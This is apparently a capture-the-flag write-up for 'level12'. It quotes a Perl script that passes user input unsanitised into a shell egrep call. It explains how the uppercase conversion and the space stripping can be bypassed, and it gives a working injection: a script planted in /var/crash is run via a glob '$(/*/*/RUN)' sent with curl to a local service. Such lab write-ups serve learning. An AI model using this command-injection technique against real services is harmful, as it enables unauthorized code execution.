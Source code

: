 ## level12

Look at the script and get familiar with [this](https://perldoc.perl.org/perlop#Quote-and-Quote-like-Operators)
level12.pl:
```perl
...
sub t {
    $nn = $_[1];
    $xx = $_[0];
    $xx =~ tr/a-z/A-Z/; 
    $xx =~ s/\s.*//;
    @output = `egrep "^$xx" /tmp/xd 2>&1`;
...
```

The first regex will transform the arg string to uppercase.<br>
The second one will remove the string if it contains a space.

So, the code we're trying to inject should consist of only uppercase letters and shoudn't contain any spaces.

The solution is to run the script that will be found by a name:
```bash
echo -e "#!/bin/bash\ngetflag>/var/crash/key" > /var/crash/RUN

curl http://localhost:4646?x='$(/*/*/RUN)'
```